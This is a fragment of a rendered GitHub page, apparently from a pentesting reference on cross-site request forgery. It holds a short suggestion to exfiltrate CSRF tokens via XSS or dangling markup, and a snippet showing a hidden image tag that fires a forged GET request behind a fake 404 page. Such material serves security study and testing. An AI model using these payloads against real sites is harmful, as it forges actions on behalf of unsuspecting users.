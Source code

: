     <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h2 dir="auto"><a id="user-content-exploit-examples" class="anchor" aria-hidden="true" href="#exploit-examples"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><strong>Exploit Examples</strong></h2>
<h3 dir="auto"><a id="user-content-exfiltrating-csrf-token" class="anchor" aria-hidden="true" href="#exfiltrating-csrf-token"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><strong>Exfiltrating CSRF Token</strong></h3>
<p dir="auto">If a <strong>CSRF token</strong> is being used as **defence **you could try to **exfiltrate it **abusing a <a href="/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/#xss-stealing-csrf-tokens"><strong>XSS</strong></a> vulnerability or a <a href="/carlospolop/hacktricks/blob/master/pentesting-web/dangling-markup-html-scriptless-injection.md"><strong>Dangling Markup</strong></a> vulnerability.</p>
<h3 dir="auto"><a id="user-content-get-using-html-tags" class="anchor" aria-hidden="true" href="#get-using-html-tags"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><strong>GET using HTML tags</strong></h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;img src="http://google.es?param=VALUE" style="display:none" /&gt;
&lt;h1&gt;404 - Page not found&lt;/h1&gt;
The URL you are requesting is no longer available
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<img src=&quot;http://google.es?param=VALUE&quot; style=&quot;display:none&quot; />
<h1>404 - Page not found</h1>
The URL you are requesting is no longer available
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">Other HTML5 tags that can be used to automatically send a GET request are:</p>
<p>Screen Shoot is cross-site request forgery (csrf) attack lab</p>